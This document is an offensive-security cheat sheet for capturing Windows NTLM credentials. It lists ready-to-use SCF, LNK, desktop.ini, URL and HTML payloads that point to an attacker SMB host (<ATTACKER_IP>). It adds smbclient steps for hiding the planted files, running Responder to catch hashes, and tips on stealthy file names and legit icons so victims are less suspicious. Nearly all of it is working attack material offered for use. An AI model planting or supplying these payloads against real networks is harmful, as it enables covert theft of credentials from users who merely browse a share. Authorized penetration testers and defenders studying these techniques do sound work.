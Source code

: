 # General Guidelines
1. try to place the below files in place that you know will be visited alot. Examples include:
	- Public Network Shares
	- The Public User desktop --> is loaded for all users on a machine
2. use the folder/ini combination as it's stealthy
3. have the SMB links point to legit icons to lower suspicion
4. by the same concept, have the image urls point to legit images
5. Trick: you can always point to a non-existing name and responder will respond to that

# Automatic on folder/share visit I: SCF Files
```
[Shell]
Command=2
IconFile=\\<ATTACKER_IP>\DesktopSettings.config
[Taskbar]
Command=ToggleDesktop
```
1. Put the contents into a non-suspicious file name like `@DesktopSettings.scf`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

# Automatic on folder/share visit II: LNK Files
```powershell
$Output_For_Lnk = "$pwd\Database.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@DB"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Database"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
1. Run the PowerShell script, it will save the `.lnk` file in the current working directory
2. Place the file in the writable SMB share (won't work if hidden)
3. Fire up responder `responder -I eth0`

# Automatic on folder/share visit III: Creating a system folder and placing `desktop.ini` inside it
```
[.ShellClassInfo]
IconResource=\\<ATTACKER_IP>\settings
```
1. save the file with the above contents inside a `desktop.ini` file
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. connect to the writable SMB share using `smbclient`
4. create a folder and give it a non-suspicious name using `mkdir`
5. set the folder attribute to be a system folder using `setmode <FOLDER> +s`
6. change int the new folder
7. upload the `desktop.ini` file `put <INI_FILE>`
8. make it a system file using `setmode <INI_FILE> +s`
9. and make it hidden using `setmode <INI_FILE> +h`
10. *overall,* it should like this:
```
smb: \> mkdir <FOLDER>
smb: \> setmode <FOLDER> +s
smb: \> cd <FOLDER>
smb: \> put <INI_FILE>
smb: \> setmode <INI_FILE> +s
smb: \> setmode <INI_FILE> +h
```
11. fire up responder `responder -I eth0`

# Automatic on folder/share visit IV: URL files
```
[InternetShortcut]
URL=<URL_OF_CHOICE>
WorkingDirectory=<DIR_OF_CHOICE>
IconFile=\\<ATTACKER_IP>\test
IconIndex=1
```
1. Put the contents into a non-suspicious file name like `IESettings.url`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (will work if hidden and the user enabled `show hidden files`. otherwise won't work)
4. Fire up responder `responder -I eth0`

# Must be opened to work: HTML files (tested on IE & Chrome)
```
<img src="\\\\<ATTACKER_IP>\\img">
```
1. Put the contents into a non-suspicious file name like `bookmarks.html`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

### Note
- you can hide any file when in an `smbclient` prompt using `setmode <FILE_NAM> +h`
- you can unhide any file when in an `smbclient` prompt using `setmode <FILE_NAM> -h`